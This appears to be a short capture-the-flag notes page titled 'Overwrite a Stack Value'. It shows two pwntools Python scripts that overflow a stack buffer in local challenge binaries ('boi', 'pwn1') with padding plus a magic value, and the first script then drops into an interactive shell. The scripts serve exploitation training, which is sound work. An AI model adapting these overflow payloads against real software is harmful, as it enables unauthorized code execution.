 # Overwrite a Stack Value

Examples of simple buffer owverflows to edit a stack value and get a shell or flag  

```python3
#!/usr/bin/env python3
from pwn import *

context.log_level="debug"
io = process("./boi")

offset = b"A" * 20              # Offset to the target value
value = b"\xee\xba\xf3\xca"     # New value to be set
payload = offset + value        # create the payload
io.recv()                       # Run the program and receive lines
io.send(payload)                # Send the payload
io.interactive()                # Interact with the shell
```

```python3
from pwn import *

context.log_level="debug"
io = process("./pwn1")

# What is your name?
io.sendline(b"Sir Lancelot of Camelot")

# What is your quest?

io.sendline(b"To seek the Holy Grail.")

# What is your secret
payload = b"A" * 43 + b"\xc8\x10\xa1\xde"
io.sendline(payload)

# Win
io.recv()
```
